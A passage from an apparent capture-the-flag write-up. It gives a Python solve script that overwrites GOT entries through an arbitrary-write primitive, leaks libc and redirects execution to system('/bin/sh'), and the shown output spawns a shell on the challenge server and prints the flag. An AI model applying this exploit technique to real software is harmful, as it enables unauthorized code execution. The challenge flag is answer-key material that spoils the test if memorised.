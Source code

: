 ```python
aaw(puts_got + 1, ((main + 0x33) & 0xff00) >> 8)

# __stack_chk_fail() -> no_brute+0x3e (jmp puts@plt -> main+0x33)
aaw(__stack_chk_fail_got, (no_brute + 0x3e) & 0xff)


# leak libc

# setbuf() -> puts@plt+6 -> puts()
for offset in range(8):
    aaw(setbuf_got + offset, ((puts_plt + 6) & (0xff << (8 * offset))) >> (8 * offset))

# stdout ->  __libc_start_main@got
for offset in range(8):
    aaw(stdout + offset, (__libc_start_main_got & (0xff << (8 * offset))) >> (8 * offset))

# setbuf(stdout) -> puts(__libc_start_main@got)
aaw(__stack_chk_fail_got, main + 0x23)

__libc_start_main = u64(r.recvline()[:-1].ljust(8, b'\x00')) # __libc_start_main()
libc = __libc_start_main - __libc_start_main_offset # libc base
system = libc + system_offset # system()
binsh = libc + binsh_offset # "/bin/sh"


# call system("/bin/sh")

# sleep() -> main+0x33
aaw(sleep_got, (main + 0x33) & 0xff)
aaw(sleep_got + 1, ((main + 0x33) & 0xff00) >> 8)

# __stack_chk_fail() -> no_brute+0x19 (call sleep() -> main+0x33)
aaw(__stack_chk_fail_got, (no_brute + 0x19) & 0xff)

# puts() -> system()
for offset in range(8):
    aaw(puts_got + offset, (system & (0xff << (8 * offset))) >> (8 * offset))

# setbuf() -> no_brute+0x3a (add rsp,0x18; jmp puts@plt) (for stack alignment)
aaw(setbuf_got, (no_brute + 0x3a) & 0xff)

# stdout -> "/bin/sh"
for offset in range(8):
    aaw(stdout + offset, (binsh & (0xff << (8 * offset))) >> (8 * offset))

# __stack_chk_fail() -> main+0x23 -> setbuf(stdout) -> system("/bin/sh")
aaw(__stack_chk_fail_got, (main + 0x23) & 0xff)


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 19453: Done
[*] Switching to interactive mode
\x10\x16\x98\x7f
\x10\x16\x98\x7f
$ cat flag.txt
DH{86bb4a1255f18b5942def47ce5171538}
```
